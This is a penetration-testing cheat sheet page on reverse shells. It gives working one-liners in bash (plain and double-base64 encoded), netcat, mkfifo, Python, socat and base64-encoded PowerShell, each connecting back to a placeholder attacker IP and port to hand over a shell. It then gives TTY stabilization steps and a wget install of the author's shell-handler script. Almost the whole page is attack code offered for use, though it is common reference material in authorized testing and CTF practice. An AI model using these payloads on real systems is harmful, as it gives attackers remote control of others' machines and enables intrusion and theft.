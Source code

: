 ```yaml
---
icon: book-skull
---
```


# Reverse Shells

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

{% tabs %}
{% tab title="Bash" %}
{% code overflow="wrap" %}
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
{% endcode %}

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}
{% endtab %}

{% tab title="Base64" %}
We can encode the content in **base64**, to avoid conflicts with symbols and spaces in the URL. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

Generate the payload:

{% code overflow="wrap" %}
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64 | xargs -I{} echo "echo {}|base64 -d|base64 -d|bash"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

{% tabs %}
{% tab title="Base64" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0 | xargs echo "powershell -e"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Interactive TTY

{% tabs %}
{% tab title="Script" %}
```bash
script -qc bash /dev/null
```
{% endtab %}

{% tab title="Python" %}
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

and then run:

```bash
# Press <Ctrl> + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

#### Automatic Shell Stabilization

I created this script which sets up a handler and automatically stabilizes Linux reverse shells. And for Windows machines uses `rlwrap` to allow command history, CTRL + L to clear the screen and other functions, also preventing CTRL + C from killing the session

{% embed url="https://github.com/NLXZ/pwnc/" %}

```sh
# Add it to your PATH
wget https://raw.githubusercontent.com/NLXZ/pwnc/refs/heads/main/pwnc.sh -O ~/.local/bin/pwnc
chmod +x ~/.local/bin/pwnc
```
